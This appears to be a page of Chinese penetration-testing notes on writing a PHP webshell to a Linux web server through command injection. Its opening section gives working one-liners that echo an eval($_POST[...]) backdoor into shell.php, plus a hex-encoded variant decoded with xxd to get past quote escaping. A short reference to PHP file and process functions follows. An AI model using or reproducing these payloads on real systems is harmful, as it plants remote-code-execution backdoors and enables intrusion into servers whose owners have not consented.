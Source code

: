 linux下命令注入写webshell：

linux下需要用单引号来转义&lt;，不过很多php都默认开启gpc，可以先用16进制转换一句话再用xxd命令把16进制还原.

```php
echo '<?php eval($_POST[pass]);>' > web目录/shell.php
```

```php
echo 3c3f706870206576616c28245f504f53545b706173735d293b3e|xxd -r -ps > web目录/shell.php
```

### fwrite\(\)

fwrite\(\) 函数写入文件，fwrite\(\) 把 _string_ 的内容写入文件指针 _file_ 处。 如果指定了 _length_，当写入了 _length_ 个字节或者写完了 _string_ 以后，写入就会停止，视乎先碰到哪种情况。

```php
fwrite(file,string,length)
```

### ignore\_user\_abort\(\)

设置与客户机断开是否会终止脚本的执行。

如果设置为 true，则忽略与用户的断开，如果设置为 false，会导致脚本停止运行。

如果未设置该参数，会返回当前的设置。

### unlink（）

删除文件。

如果成功，该函数返回 TRUE。如果失败，则返回 FALSE。

### \_\_FILE\_\_

取得当前文件的绝对地址，结果：D:\www\test.php

### file\_put\_contents\(\)

将一个字符串写入文件

```php
 file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] ) : int
```

### file\_get\_contents\(\)

把整个文件读入一个字符串中

#### 原型

```php
 file_get_contents ( string $filename [, bool $use_include_path = false [, resource $context [, int $offset = -1 [, int $maxlen ]]]] ) : string
```
